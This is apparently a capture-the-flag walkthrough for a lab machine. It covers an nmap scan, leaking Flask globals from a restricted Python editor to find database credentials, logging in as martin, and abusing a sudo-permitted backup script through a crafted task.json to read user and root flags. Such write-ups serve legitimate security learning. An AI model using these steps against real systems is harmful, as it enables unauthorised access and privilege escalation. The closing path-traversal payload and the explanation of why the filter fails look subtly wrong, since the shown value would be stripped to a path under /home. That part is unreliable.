




First nmap scan on IP given


Found two ports open ssh and upnp 

On port 5000 Python Code Editor is running 


After trying many commands most of the commands are restricted but then successfully printed the global variables and globals that has sensitive data.


Finally revealed some information 

Flask Application (app = <Flask 'app'>)
Confirms this is a Python Flask web app .

Database:
SQLAlchemy with SQLite (sqlite:////home/app-production/app/instance/database.db).

After this look for users and password in the database
By quering database found username and password of two users


Successfully logged in as martin 


After typing sudo -l found one command named as backy.sh that can be run by any user 


backy.sh is backing up the directories by utiltizing the backy utility.

The backy utility begins by reading the task.json file, which contains the backup configuration.
The task.json file is shown below:


Backy.sh Code below:

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"

```

For User.txt flag append the user.txt in the task.json file. It will backup the user.txt as an archive in the destination folder.
```json
martin@code:~/backups$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app/user.txt"
        ],

        "exclude": [
                ".*"
        ]
}

```

After appending the user.txt run the back.sh script with the argument passed as task.json file


It will archive the user.txt in the directory as mentioned 


User flag Owned 


For Root flag there is flaw in the backy.sh code path traversal can be exploited here as no proper path sanitization here.
The script tries to sanitize paths by removing ../ sequences:
```bash
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```
The above code is handling only one level it fails to handle multiple level of path traversal
Just traverse 
```json
martin@code:~/backups$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/./../../root/root.txt"
        ],

        "exclude": [
                ".*"
        ]
}


```


